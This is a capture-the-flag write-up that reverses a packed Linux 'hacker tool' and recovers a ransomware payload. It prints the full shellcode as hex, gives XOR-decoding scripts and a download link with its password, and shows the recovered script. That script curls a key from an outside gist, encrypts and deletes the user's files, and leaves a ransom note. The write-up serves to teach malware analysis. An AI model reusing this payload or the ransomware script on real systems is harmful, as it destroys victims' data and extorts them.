

> Last week my friend (he is Chizuru's Fiancée) tell me about tools who give us like a hacker, and he tell me if i using this tool i can get beautiful Fiancée like Chizuru! so i run given command he give, but it didnt show anything, he just say maybe its not compatible with my system.
>
> And he tell me, dont forget check your personal folder, what?
>
> mirror: https://mega.nz/file/R9BnEBaJ#TIt7qzqL5pujIvuIrL7DBdC-VS0zIXQbKWx-828_xqU password: notinfectedofc

---

From the `main` function i noticed this Nuitka python executable but is already extracted using [nuitka-extractor](https://github.com/extremecoders-re/nuitka-extractor).

Searching string lije "libutama.so" in the IDA shows some of bytecode that will run by the nuitka runtime.



And searching in the strings shows this interesting hex blob.

```
.data:00000000006398C8	00000022	C	cf8b8c95092dfbbaee917884d866e4401
.data:00000000006398F4	00000012	C	ce54c750c6a8bd188
```

Turns out this is key and iv for decrypting the "libutama.so" using AES-256-CBC. After decrypting it, the python code is running a shellcode from decrypted "libutama.so".

```py
from binascii import unhexlify
from capstone import Cs, CS_ARCH_X86, CS_MODE_64

hex_str = """
48 31 c9 48 81 e9 00 ff ff ff 48 8d 05 ef ff ff ff 48 bb 28 c9 96 ad 66 0d 3e 46 48 31 58 27 48 2d f8 ff ff ff e2 f4 60 f8 5f e5 e7 e4 a7 b9 d7 36 de 20 63 e2 c1 b9 d7 81 2d 24 b3 33 be 49 84 ac 9f e5 57 55 19 0e 05 31 69 52 99 ef ca 87 cc 3e 5e 23 23 f6 c8 30 02 bf 9b a7 25 97 c8 30 b5 4c 72 ca 4d d1 6a f8 1d 2b 5e 93 92 4f 7f e2 05 08 e9 5d 28 9c 1b 1f 55 2c 22 fb 05 c7 3b a7 e3 1e 1f ca 78 d2 3b 8a 19 1a 15 c7 c2 5d 51 a7 7a 1d 19 d6 17 96 7c cf 15 23 2e ba 5f ce 36 d5 58 75 6b f3 43 da 37 87 58 6a 18 c7 69 96 73 8a 0e 37 3b f0 f7 d2 73 8a 08 2b 2a f1 4b d6 3f c2 5a 32 6b e2 42 dd 3f c2 5a 3c 2e f4 4e 00 7e d5 5a 08 70 b5 4e db 73 f5 3f 02 76 b7 0e 9c 21 c2 1b 22 3b f4 5e dc 73 8a 57 3c 2e f9 4b c0 3a d1 1f 63 3f fa 17 96 77 f4 28 0d 69 b5 08 90 15 85 53 6c 70 b5 6f fa 10 9a 58 6a 63 f8 41 c0 36 ca f7 67 69 ae f7 d7 26 d5 16 6e 66 fa f7 9b 27 ca f7 61 22 fb 43 c0 7d d3 02 3a 65 e5 4f d9 73 cf 0e 3a 3b e6 10 9b 7c c0 13 3d 3f bb 4d dd 27 cf 0f 2c 3e e6 4f c6 30 c8 14 3a 2e fb 5e 9a 30 c8 17 61 29 f9 4b d7 3c d0 12 2f 22 e1 05 d7 61 92 4c 7a 2f a4 13 84 6b c5 18 2b 2a a7 4e d7 62 c3 1f 78 79 f6 4b 82 32 c4 48 7a 2e a3 1d 9b 21 c6 0d 61 79 f0 1f d7 66 92 1c 2b 7a f3 48 87 36 c4 1f 76 73 a3 13 85 61 97 18 7f 29 a3 4f 80 62 92 18 7f 7d a7 1f 81 35 97 1b 77 64 ac 4c 82 31 9e 4a 7c 29 f1 1d d5 30 90 1b 2b 78 ad 1f d5 30 9e 4a 7e 73 ac 49 d6 30 91 4c 7b 2d ad 12 d0 64 91 43 76 2a a7 4e 87 61 92 19 79 7e a4 1b 82 60 c2 1e 7c 7b ac 1e 82 67 97 4f 2f 79 bb 5a d1 3e 9c 5a 21 3b f0 44 c7 20 cb 5a 2b 25 f6 f7 99 32 c2 09 63 79 a0 1c 99 30 d3 08 6e 66 de f7 96 77 8f 12 2b 2a f1 f7 99 30 87 48 7b 7d b5 05 c0 3e d7 55 27 25 fc 5e 9a 27 df 0e 60 3b f0 47 00 2f 87 08 2b 3d b5 56 00 27 c6 13 22 6b b8 49 00 65 93 53 6c 6b b8 43 c2 73 85 5e 66 3f f4 43 d8 73 8a 19 6e 7a a7 12 00 7c d3 17 3e 64 fc 44 dd 27 89 0e 36 3f bb 5a d1 3e 87 06 6e 39 f0 5c 00 2f 87 12 2b 2a f1 f7 99 30 87 49 7c 62 b7 f7 99 3a c9 5a 6c 6f d3 08 00 2f 87 02 36 2f b5 07 c4 73 db 5a 3c 2e e3 f7 c8 73 df 02 2a 6b b8 58 00 7e d7 5a 32 6b e1 4f d1 73 85 5e 0b 05 d6 08 00 6d 87 55 2a 2e e3 05 da 26 cb 16 75 6b e6 5a d8 3a d3 5a 63 29 b5 18 81 63 87 57 2a 6b b8 4b 00 65 87 58 6a 0e db 69 96 73 85 55 3a 26 e5 05 90 28 f5 3f 02 64 ba 05 9b 0c f8 07 60 2e fb 49 9a 71 9c 5a 6e 39 f8 f7 99 35 87 58 6a 0d b7 11 00 37 c8 14 2b 70 b5 4f d7 3b c8 5a 6c 03 d4 62 fc 12 87 1d 21 3f b5 4f da 30 d5 03 3e 3f f0 4e 95 73 c9 15 39 6b f2 43 c2 36 87 17 2b 6b f6 42 dd 29 d2 08 3b 6b e5 43 d8 3f c8 0d 62 6b f4 44 d0 73 ce 5a 39 22 f9 46 00 20 c2 14 3a 6b ec 45 c1 73 d3 12 2b 6b f1 4f d7 21 de f7 3a 24 e7 f7 8e 37 c2 0c 27 27 af 08 00 6d 87 5e 1d 19 d6 08 9b 01 e2 3b f7 06 d0 04 c0 2b d3 58 4e 1d c2 7e ea 39 9c 22 41 4e 95 2a b4 37 46
""".strip()

blob = unhexlify(hex_str.replace(" ", "").replace("\n", ""))
print(f"Blob length: {len(blob)} bytes")

md = Cs(CS_ARCH_X86, CS_MODE_64)
md.detail = True

for ins in md.disasm(blob, 0):
    print(f"0x{ins.address:04x}: {ins.mnemonic:6s} {ins.op_str}")
```

The shellcode starts with a tiny **qword-wise XOR decoder**. It sets `rcx = 0x100` iterations, points `rax` near the blob start, then XORs 8-byte words with the constant `0x463e0d66ad96c928`, advancing by 8 each time. This reveals the next stage. The `loop` instruction decrements `rcx` and jumps until zero.

```
0x0000: xor    rcx, rcx
0x0003: sub    rcx, -0x100
0x000a: lea    rax, [rip - 0x11]
0x0011: movabs rbx, 0x463e0d66ad96c928
0x001b: xor    qword ptr [rax + 0x27], rbx
0x001f: sub    rax, -8
0x0025: loop   0x1b
```

To reproduce the staged decryption, we mirror each XOR pass in Python and re-disassemble after each round:

```py
from binascii import unhexlify
from capstone import Cs, CS_ARCH_X86, CS_MODE_64

hex_str = """
48 31 c9 48 81 e9 00 ff ff ff 48 8d 05 ef ff ff ff 48 bb 28 c9 96 ad 66 0d 3e 46 48 31 58 27 48 2d f8 ff ff ff e2 f4 60 f8 5f e5 e7 e4 a7 b9 d7 36 de 20 63 e2 c1 b9 d7 81 2d 24 b3 33 be 49 84 ac 9f e5 57 55 19 0e 05 31 69 52 99 ef ca 87 cc 3e 5e 23 23 f6 c8 30 02 bf 9b a7 25 97 c8 30 b5 4c 72 ca 4d d1 6a f8 1d 2b 5e 93 92 4f 7f e2 05 08 e9 5d 28 9c 1b 1f 55 2c 22 fb 05 c7 3b a7 e3 1e 1f ca 78 d2 3b 8a 19 1a 15 c7 c2 5d 51 a7 7a 1d 19 d6 17 96 7c cf 15 23 2e ba 5f ce 36 d5 58 75 6b f3 43 da 37 87 58 6a 18 c7 69 96 73 8a 0e 37 3b f0 f7 d2 73 8a 08 2b 2a f1 4b d6 3f c2 5a 32 6b e2 42 dd 3f c2 5a 3c 2e f4 4e 00 7e d5 5a 08 70 b5 4e db 73 f5 3f 02 76 b7 0e 9c 21 c2 1b 22 3b f4 5e dc 73 8a 57 3c 2e f9 4b c0 3a d1 1f 63 3f fa 17 96 77 f4 28 0d 69 b5 08 90 15 85 53 6c 70 b5 6f fa 10 9a 58 6a 63 f8 41 c0 36 ca f7 67 69 ae f7 d7 26 d5 16 6e 66 fa f7 9b 27 ca f7 61 22 fb 43 c0 7d d3 02 3a 65 e5 4f d9 73 cf 0e 3a 3b e6 10 9b 7c c0 13 3d 3f bb 4d dd 27 cf 0f 2c 3e e6 4f c6 30 c8 14 3a 2e fb 5e 9a 30 c8 17 61 29 f9 4b d7 3c d0 12 2f 22 e1 05 d7 61 92 4c 7a 2f a4 13 84 6b c5 18 2b 2a a7 4e d7 62 c3 1f 78 79 f6 4b 82 32 c4 48 7a 2e a3 1d 9b 21 c6 0d 61 79 f0 1f d7 66 92 1c 2b 7a f3 48 87 36 c4 1f 76 73 a3 13 85 61 97 18 7f 29 a3 4f 80 62 92 18 7f 7d a7 1f 81 35 97 1b 77 64 ac 4c 82 31 9e 4a 7c 29 f1 1d d5 30 90 1b 2b 78 ad 1f d5 30 9e 4a 7e 73 ac 49 d6 30 91 4c 7b 2d ad 12 d0 64 91 43 76 2a a7 4e 87 61 92 19 79 7e a4 1b 82 60 c2 1e 7c 7b ac 1e 82 67 97 4f 2f 79 bb 5a d1 3e 9c 5a 21 3b f0 44 c7 20 cb 5a 2b 25 f6 f7 99 32 c2 09 63 79 a0 1c 99 30 d3 08 6e 66 de f7 96 77 8f 12 2b 2a f1 f7 99 30 87 48 7b 7d b5 05 c0 3e d7 55 27 25 fc 5e 9a 27 df 0e 60 3b f0 47 00 2f 87 08 2b 3d b5 56 00 27 c6 13 22 6b b8 49 00 65 93 53 6c 6b b8 43 c2 73 85 5e 66 3f f4 43 d8 73 8a 19 6e 7a a7 12 00 7c d3 17 3e 64 fc 44 dd 27 89 0e 36 3f bb 5a d1 3e 87 06 6e 39 f0 5c 00 2f 87 12 2b 2a f1 f7 99 30 87 49 7c 62 b7 f7 99 3a c9 5a 6c 6f d3 08 00 2f 87 02 36 2f b5 07 c4 73 db 5a 3c 2e e3 f7 c8 73 df 02 2a 6b b8 58 00 7e d7 5a 32 6b e1 4f d1 73 85 5e 0b 05 d6 08 00 6d 87 55 2a 2e e3 05 da 26 cb 16 75 6b e6 5a d8 3a d3 5a 63 29 b5 18 81 63 87 57 2a 6b b8 4b 00 65 87 58 6a 0e db 69 96 73 85 55 3a 26 e5 05 90 28 f5 3f 02 64 ba 05 9b 0c f8 07 60 2e fb 49 9a 71 9c 5a 6e 39 f8 f7 99 35 87 58 6a 0d b7 11 00 37 c8 14 2b 70 b5 4f d7 3b c8 5a 6c 03 d4 62 fc 12 87 1d 21 3f b5 4f da 30 d5 03 3e 3f f0 4e 95 73 c9 15 39 6b f2 43 c2 36 87 17 2b 6b f6 42 dd 29 d2 08 3b 6b e5 43 d8 3f c8 0d 62 6b f4 44 d0 73 ce 5a 39 22 f9 46 00 20 c2 14 3a 6b ec 45 c1 73 d3 12 2b 6b f1 4f d7 21 de f7 3a 24 e7 f7 8e 37 c2 0c 27 27 af 08 00 6d 87 5e 1d 19 d6 08 9b 01 e2 3b f7 06 d0 04 c0 2b d3 58 4e 1d c2 7e ea 39 9c 22 41 4e 95 2a b4 37 46
""".strip()

blob = unhexlify(hex_str.replace(" ", "").replace("\n", ""))
print(f"Blob length: {len(blob)} bytes")

md = Cs(CS_ARCH_X86, CS_MODE_64)
md.detail = True

for ins in md.disasm(blob, 0):
    print(f"0x{ins.address:04x}: {ins.mnemonic:6s} {ins.op_str}")

print("\n" + "="*80 + "\n")

LOOP_COUNT = 0x100
START_OFF = 0x27
STRIDE = 8
KEY = 0x463e0d66ad96c928

buf = bytearray(blob)

for i in range(LOOP_COUNT):
    off = START_OFF + i*STRIDE
    q = int.from_bytes(buf[off:off+STRIDE], "little")
    q ^= KEY
    buf[off:off+STRIDE] = q.to_bytes(STRIDE, "little")

for ins in md.disasm(buf, 0):
    print(f"0x{ins.address:04x}: {ins.mnemonic:6s} {ins.op_str}")

print("\n" + "="*80 + "\n")

LOOP_COUNT = 0x67
START_OFF = 0x27 + 0x27
STRIDE = 8
KEY = 0x965ac0f803ed589

for i in range(LOOP_COUNT):
    off = START_OFF + i*STRIDE
    q = int.from_bytes(buf[off:off+STRIDE], "little")
    q ^= KEY
    buf[off:off+STRIDE] = q.to_bytes(STRIDE, "little")

for ins in md.disasm(buf, 0):
    print(f"0x{ins.address:04x}: {ins.mnemonic:6s} {ins.op_str}")

print("\n" + "="*80 + "\n")

LOOP_COUNT = 0x62
START_OFF = 0x27 + 0x27 + 0x27
STRIDE = 8
KEY = 0xdce0375db9876864

for i in range(LOOP_COUNT):
    off = START_OFF + i*STRIDE
    q = int.from_bytes(buf[off:off+STRIDE], "little")
    q ^= KEY
    buf[off:off+STRIDE] = q.to_bytes(STRIDE, "little")

for ins in md.disasm(buf, 0):
    print(f"0x{ins.address:04x}: {ins.mnemonic:6s} {ins.op_str}")

f = open("decrypted.bin", "wb")
f.write(buf)
f.close()
```

The blob is peeled in **three XOR rounds** with different counts/starts/keys. After round 3 we dump `decrypted.bin` and scan for strings to confirm behavior.

```
$ strings decrypted.bin
>FH1X'H-
e       H1X'H-
H1X'H-
/bin/sh
PT_Rfh-cT^R
SRC="/home/uzer"; find "$SRC" -type
f -readable | while read
-r F; do REL="$(realpath --relative-to="$SRC" "$F")"; ENC="$(mktem
curl -o
/init.txt.pem https://gist.githubusercontent.com/blacowhait/c2564d1908bbea2dc1de62ca6ac24e67/raw/2e5c55fe1fb3ece8869120b1b6e415b16255f0a9/9f6b902bd7ac7ae385ac90089cbc665f88d7698a2d325c751163ed20946405a2.pem; openssl enc
-aes-256-ctr -K
"$(head
-c 256 /tmp/init.txt.pem
| rev |
tail -c
64)" -iv "$(tail -c 128
/tmp/init.txt.pem | rev
| head
-c 32)"
-in "$F"
| xxd -p | rev
| xxd -r
-p | tee "$ENC"
> /dev/null; split -b 250 -d -a
6 "$ENC" "/tmp/${REL////__}.enc.";  rm
-f "$F";
done; echo "HAHHA got encrypted! now give me chizuru pillow, and i will
sent you the decry
:devil:"
> $SRC"/REA
ME.txt"
VWT^j;X
```

The decrypted payload is a sh script body, almost identical to the **prankster** challenge but with notable differences:

- Key: `head -c 256 ... | rev | tail -c 64` → take first 256 **bytes** (hex text), reverse, then take the last 64 hex chars → 32-byte key.
- IV: `tail -c 128 ... | rev | head -c 32` → take last 128 bytes, reverse, then take first 32 hex chars → 16-byte IV.

This explains why “nothing happens” from the user’s perspective while private files vanish or transform.

```sh
sysdig -r challenge.scap "fd.name contains \"flag.txt\"" -X
```

This filter inspects reads/writes involving paths that contain `flag.txt`. The `-X` switch prints hex payloads, letting us grab the `flag.txt.enc.000000` chunk body.

Finally, undo the inner obfuscation and decrypt:

```sh
curl -o /tmp/init.txt.pem \
      https://gist.githubusercontent.com/blacowhait/c2564d1908bbea2dc1de62ca6ac24e67/raw/2e5c55fe1fb3ece8869120b1b6e415b16255f0a9/9f6b902bd7ac7ae385ac90089cbc665f88d7698a2d325c751163ed20946405a2.pem
xxd -p flag.txt.enc.000000 | rev | xxd -r -p | openssl enc -d -aes-256-ctr -K "$(head -c 256 /tmp/init.txt.pem | rev | tail -c 64)" -iv "$(tail -c 128 /tmp/init.txt.pem | rev | head -c 32)" -out flag.txt
```
